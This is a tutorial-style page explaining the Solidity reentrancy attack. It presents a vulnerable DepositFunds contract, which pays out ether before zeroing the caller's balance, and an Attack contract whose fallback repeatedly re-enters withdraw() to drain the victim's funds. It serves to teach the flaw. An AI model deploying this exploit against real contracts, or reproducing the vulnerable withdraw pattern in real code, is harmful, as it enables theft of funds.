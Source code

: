 ```yaml
---
description: 'Reference: https://hackernoon.com/hack-solidity-reentrancy-attack'
---
```


# Scenarios

## Reentrancy Attack Scenario

### &#x20;How Does Reentrancy Attack Work?

A reentrancy attack involves two smart contracts. A vulnerable contract and an untrusted attacker’s contract.

\


![](data:image/svg+xml,%3csvg%20xmlns=%27http://www.w3.org/2000/svg%27%20version=%271.1%27%20width=%27567%27%20height=%27352%27/%3e)![Source: https://cryptomarketpool.com/reentrancy-attack-in-a-solidity-smart-contract/](https://hackernoon.com/\_next/image?url=https%3A%2F%2Fcdn.hackernoon.com%2Fimages%2F2VftJjxuwsZ19AsybJmsSIp6DX53-mn02f8j.jpeg\&w=1200\&q=75)



1. The vulnerable smart contract has 10 eth.
2. An attacker stores 1 eth using the deposit function.
3. An attacker calls the withdraw function and points to a malicious contract as a recipient.
4.  Now withdraw function will verify if it can be executed:

    \


* Does the attacker have 1 eth on their balance? Yes – because of their deposit.
* Transfer 1 eth to a malicious contract. (Note: attacker balance has NOT been updated yet)
*   Fallback function on received eth calls withdraw function again.

    \


1.  Now withdraw function will verify if it can be executed:

    \


* Does the attacker have 1 eth on their balance? Yes – because the balance has not been updated.
* Transfer 1 eth to a malicious contract.
* and again until the attacker will drain all the funds stored on the contract

\


Below is the contract, which contains the reentrancy vulnerability.

\


```javascript
contract DepositFunds {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }


}
```

\


The vulnerability comes where we send the user their requested amount of ether. In this case, the attacker calls withdraw() function. Since his balance has not yet been set to 0, he is able to transfer the tokens even though he has already received tokens.

\


Now, let's consider a malicious attacker creating the following contract.

\


```javascript
contract Attack {
    DepositFunds public depositFunds;

    constructor(address _depositFundsAddress) {
        depositFunds = DepositFunds(_depositFundsAddress);
    }

    // Fallback is called when DepositFunds sends Ether to this contract.
    fallback() external payable {
        if (address(depositFunds).balance >= 1 ether) {
            depositFunds.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        depositFunds.deposit{value: 1 ether}();
        depositFunds.withdraw();
    }


}
```

\


The attack function calls the withdraw function in the victim’s contract. When the token is received, the fallback function calls back the withdraw function. Since the check is passed contract sends the token to the attacker, which triggers the fallback function.

\

